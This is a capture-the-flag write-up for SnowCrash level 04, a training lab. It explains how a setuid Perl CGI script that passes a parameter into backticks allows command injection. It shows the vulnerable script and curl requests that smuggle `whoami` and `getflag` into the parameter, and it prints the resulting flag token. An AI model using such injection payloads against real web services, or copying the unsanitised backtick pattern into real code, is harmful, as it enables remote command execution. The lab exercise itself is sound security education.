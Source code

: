 # Level 04

## Vulnerability

Privilege escalation - CGI code injection

## Context

In our home directory, we find a binary
```
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

## Solution

Here we see that when we run this Perl script, we run it with owner flag04 permissions (setuid bit 's'). We don't have the permissions to run getflag directly, but maybe we can get this Perl script to run getflag for us.

Let's investigate the script.
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747                        ## port hint
use CGI qw{param};                      ## set up a Common Gateway Interface
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;                 ## print the output of the echo command, command substitution (backticks)
}
x(param("x"));                          ## Accept one argument "x"
```
So we should run this script with one argument "x". Lets try an example.
```
level04@SnowCrash:~$ ./level04.pl x="whoami"
whoami
```
If we use backtick notation, we can pass a command and ensure it's run and its output captured and echoed.
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
level04
```
Lets try running it on port 4747 as suggested.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`whoami`'
flag04
```
Great, now we are executing as flag04. lets try executing getflag.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
